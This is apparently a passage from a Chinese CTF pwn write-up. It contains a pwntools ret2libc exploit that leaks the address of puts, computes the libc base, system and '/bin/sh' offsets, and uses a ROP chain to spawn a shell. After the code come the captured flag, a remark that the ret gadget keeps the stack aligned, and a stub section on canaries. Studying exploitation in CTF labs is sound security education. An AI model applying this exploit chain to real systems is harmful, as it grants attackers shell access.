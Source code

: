 ```python
pop_rdi_ret=0x0000000000400763
payload=b'a'*padding+p64(pop_rdi_ret)+p64(puts_got)+p64(puts_plt)+p64(main_addr)
p.recvuntil('again\n')
p.sendline(payload)
p.recvline()
puts_real=u64(p.recvline()[:-1].ljust(8,'\x00'))
print(hex(puts_real))


# libcsearcher
# libc = LibcSearcher("puts",puts_real)
# libc_base = puts_real - libc.dump("puts")
# system_addr = libc_base+libc.dump("system")
# binsh = libc_base+libc.dump("str_bin_sh")


# libc=ELF('libc6_2.27-3ubuntu1.5_amd64.so')
libc_base=puts_real-0x080970
system_addr=libc_base+0x04f420
binsh=libc_base+0x1b3d88

payload2=b'a'*padding +p64(pop_rdi_ret)+p64(binsh)+p64(ret)+p64(system_addr)

p.sendline(payload2)
p.interactive()
```

这里的ret到底是什么，顺序会影响的....用于保持堆栈平衡

```
cat flag
flag{9e71d0f2-452e-4fb1-9236-54ab31aebcae}
```

[PWN 中 64 位程序的堆栈平衡](https://www.uf4te.cn/posts/58163c9b.html)







##### canary

stack smashing detected

![image-20240424234448795](../typora-user-images/image-20240424234448795.png)













